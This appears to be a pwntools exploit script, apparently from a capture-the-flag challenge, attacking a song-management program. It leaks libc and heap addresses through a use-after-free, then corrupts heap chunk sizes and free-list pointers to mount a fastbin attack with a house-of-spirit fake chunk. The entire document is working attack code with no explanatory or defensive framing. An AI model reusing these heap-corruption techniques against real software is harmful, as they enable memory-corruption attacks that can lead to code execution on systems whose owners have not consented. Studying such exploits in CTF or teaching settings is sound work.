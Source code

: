 ```py
add_song(0x60, b"B"*0x40)   #1
add_song(0x60, b"C"*0x40)   #2
add_song(0x60, b"D"*0x40)   #3
add_song(0x60, b"E"*0x40)   #4
delete(0)
view(0)
p.recvuntil("You Song has ")
least_byte = int(p.recvline().split(b" ")[0])
log.info("least byte: " + hex(least_byte))
p.recvuntil("You Song has ")
snd_byte = int(p.recvline().split(b" ")[0])
log.info("second byte: " + hex(snd_byte))
p.recvuntil("You Song is ")
trd_byte = int(p.recvline().split(b" ")[0])
log.info("third byte: " + hex(trd_byte))
libc_leak_lower = least_byte + (snd_byte << 8) + (trd_byte << 16)
faking_addr = libc_leak_lower - 0x83 - 0x8

log.info("libc_leak_lower: " + hex(libc_leak_lower))
delete(1)
delete(2)
view(2)
p.recvuntil("You Song has ")
heap_least_byte = int(p.recvline().split(b" ")[0])
log.info("heap least byte: " + hex(heap_least_byte))
p.recvuntil("You Song has ")
heap_snd_byte = int(p.recvline().split(b" ")[0])
log.info("heap second byte: " + hex(heap_snd_byte))
p.recvuntil("You Song is ")
heap_trd_byte = int(p.recvline().split(b" ")[0])
log.info("heap third byte: " + hex(heap_trd_byte))
heap_lower = heap_least_byte + heap_snd_byte * 0x100 + heap_trd_byte*0x10000
# steps: 1. free victim chunk to fastbin 2. alter its size and free it again to unsorted bin 3. overwrite fd pointer to do fastbin attack
add_song(0x500, b"A"*0x500) # 5
add_song(0x60, b"B"*0x40)   # 6
add_song(0x60, b"C"*0x40)   # 7
add_song(0x50, b"a"*0x40) # 8
add_song(0x50, b"b"*0x40) # 9
delete(1)
delete(2)
delete(8)
delete(9)
edit_comment(1, 0x70, b"b"*0x60 + p64(0xe1)[:-1])

delete(2)
edit_comment(1, 0x69, b"b"*0x60 + p64(0x71))
edit(2, "l", faking_addr%0x100)
edit(2, "d", (faking_addr//0x100)%0x100)

add_song(0x60, b"aaaa") # 10
add_song(0x60, b"aaaa") # 11 **house of spirit chunk here**
edit_comment(1, 0x69, b"b"*0x60 + b"\x00"*3 + p32(0x61)+b"\x00"*1)
edit(2, "l", 0)
edit(2, "d", 0)
edit(2, "s", 0)
log.info("heap_lower" + hex(heap_lower))
edit(9, "l", 0x83)
edit(9, "d", (heap_lower//0x100)%0x100)
add_song(0x50, b"aaaa")
add_song(0x50, b"aaaa")
view(13)

```